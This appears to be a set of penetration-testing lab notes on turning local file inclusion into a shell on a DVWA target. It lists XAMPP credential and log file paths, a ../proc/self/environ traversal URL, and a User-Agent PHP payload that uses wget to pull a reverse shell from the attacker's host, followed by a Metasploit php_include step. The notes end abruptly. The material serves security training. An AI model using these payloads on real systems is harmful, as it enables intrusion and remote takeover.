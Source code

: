 


XAMPP
The following files are configuration and log files used by XAMMP on Windows:
• C:/xampp/apache/conf/httpd.conf
• C:/xampp/security/webdav.htpasswd
• C:/xampp/apache/logs/access.log
• C:/xampp/apache/logs/error.log






LFI to Shell


2 methods


- The proc/self/environ method
http://10.11.1.250/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ




download a reverse shellcode form
http://pentestmonkey.net/tools/web-shells/php-reverse-shell




Unpack the contents of the gz.tar file and rename the ‘php-reverse-shell.php’ file to revshell.txt. Then open the file with a text editor and change the IP and port values


change the permissions of the file
chmod 755 /var/www/html/revshell.txt


Serve the file on the plate of python
python -m SimpleHTTPServer


use the Tamper Data plugin again to modify the user-agent


After reloading the page that includes proc/self/environ a pop-up from Tamper Data will appear. Click the ‘Tamper’ button to continue


Then another Tamper Data pop-up appears. This is where we have to replace the contents of the User-Agent field with code that downloads the revshell.txt file and stores it as a PHP file on the target system. Replace the User-Agent with the following code:
<?system('wget http://[IP attack box]/revshell.txt -O shell.php');?>


We can now execute the reverse shell using the following URL:
http://10.11.1.250/dvwa/vulnerabilities/fi/shell.php


- Metasploit and Meterpreter


Metasploit php_include exploit
msfconsole
use exploit/unix/webapp/php_include
